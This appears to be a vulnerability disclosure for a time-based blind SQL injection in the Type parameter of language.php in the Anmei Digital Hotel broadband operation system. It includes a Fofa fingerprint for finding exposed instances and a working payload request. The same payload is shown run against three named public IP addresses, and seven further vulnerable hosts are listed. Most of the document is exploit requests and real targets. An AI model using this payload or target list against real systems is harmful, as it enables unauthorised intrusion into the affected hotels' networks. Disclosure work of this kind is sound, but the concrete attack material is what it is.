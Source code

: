 **Time blind injection type SQL injection exists in the Anmei Digital Hotel broadband operation system**

**Official website: http://www.amttgroup.com/**

**Function point: At the editing interface of the language configuration page language. php**

**Route: ip:port/language.php**

**The injection parameter: Type**

**Fofa syntax: icon_hash="1259797304"**

**The vulnerability verification data packet is as follows**

```
POST /language.php HTTP/1.1
Host: ip:port
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 263
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
**Vulnerability Case 1:**
[**https://113.140.76.67:6070/manager/login.php**](https://113.140.76.67:6070/manager/login.php)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499749754-39d596ac-9556-4a37-8856-8c0935953394.png#averageHue=%2399b9d3&clientId=u95a6dc4b-efa8-4&from=paste&height=785&id=u20424b60&originHeight=981&originWidth=1612&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=299714&status=done&style=none&taskId=u84bbbd48-7e5b-42b9-a187-e904cb3371c&title=&width=1289.6)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 113.140.76.67:6070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499722920-24ff721b-eecf-4e67-b379-3d57fcb65d29.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=674&id=u836fcc32&originHeight=843&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388228&status=done&style=none&taskId=uf0c4715f-9ee3-4069-9cb7-036ed30465f&title=&width=1264)
**Vulnerability Case 2:**
[**https://202.105.109.76:7070/manager/login.php**](https://202.105.109.76:7070/manager/login.php)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 202.105.109.76:7070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499824396-edd67679-0ffb-430d-bda9-250cf232fcea.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=660&id=u9bdf3b23&originHeight=825&originWidth=1578&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388316&status=done&style=none&taskId=u152bfd0b-21ed-48a7-b1f8-18d4e4719da&title=&width=1262.4)**Vulnerability Case 3:**
[**https://218.29.143.74:7071/manager/login.php**](https://218.29.143.74:7071/manager/login.php)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 218.29.143.74:7071
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 265
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20

```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499881158-e38995e4-a6be-4a54-bab1-5c51dec16a13.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=663&id=u1b78ab13&originHeight=829&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=386822&status=done&style=none&taskId=u25a2cfad-42ec-4257-9c34-503246b9283&title=&width=1264)
**Other cases of vulnerabilities:**

[https://183.62.208.100:7070/manager/login.php](https://183.62.208.100:7070/manager/login.php)

[https://61.185.56.165:7080/manager/login.php](https://61.185.56.165:7080/manager/login.php)

[https://1.82.161.207:7080/manager/login.php](https://1.82.161.207:7080/manager/login.php)

[https://113.59.71.176:7070/manager/login.php](https://113.59.71.176:7070/manager/login.php)

[https://119.4.56.35:7070/manager/login.php](https://119.4.56.35:7070/manager/login.php)

[https://1.202.129.226:7070/manager/login.php](https://1.202.129.226:7070/manager/login.php)

[https://202.97.137.229:62443/manager/login.php](https://202.97.137.229:62443/manager/login.php)
